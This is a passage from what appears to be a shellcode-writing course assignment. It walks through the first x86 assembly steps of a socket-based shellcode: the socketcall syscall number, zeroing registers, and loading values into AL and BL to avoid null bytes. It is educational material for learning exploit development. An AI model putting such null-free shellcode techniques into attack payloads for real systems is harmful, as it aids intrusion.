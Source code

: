 We can see this system call is number 102. 

If we look at the man page of socketcall we can see it takes two arguments (call and args).

- call determines which socket function to invoke
- args points to a block containing the actual arguments

We will need to use three registers to accomplish this.

- EAX will contain the system call for socketcall (102)
- EBX will contain the call argument to create a socket (SYS_SOCKET)
- ECX will point to the args (AF_INET, SOCK_STREAM, 0)

First we will need to zero out these registers by XOR'ing them with themselves. This ensures the registers are in a clean state for usage.

```nasm
xor eax, eax
xor ebx, ebx
xor ecx, ecx
```

Next we need to put the syscall for socketcall in EAX. To do this we first need to convert 102 to hexadecimal.

There are many tools to do this, we can do this easily with python.

```
absolomb@ubuntu:~/SLAE/assignments/1$ python3
Python 3.4.3 (default, Oct 14 2015, 20:33:09) 
[GCC 4.8.4] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> hex(102)
'0x66'
```
To avoid nulls we will MOV 0x66 into AL rather than into EAX directly.

```nasm
mov al, 0x66
```

To figure out the number for the call to create the socket we can reference net.h. We'll be referencing the rest of these definitions for later use as well. 

```
absolomb@ubuntu:~/SLAE/assignments/1$ cat /usr/include/linux/net.h
~~~
#define SYS_SOCKET	1		/* sys_socket(2)		*/
#define SYS_BIND	2		/* sys_bind(2)			*/
#define SYS_CONNECT	3		/* sys_connect(2)		*/
#define SYS_LISTEN	4		/* sys_listen(2)		*/
#define SYS_ACCEPT	5		/* sys_accept(2)		*/
~~~
```

We'll need 1 to create our socket, which means we can MOV that into BL, again avoiding nulls. 

```nasm
mov bl, 0x1
```
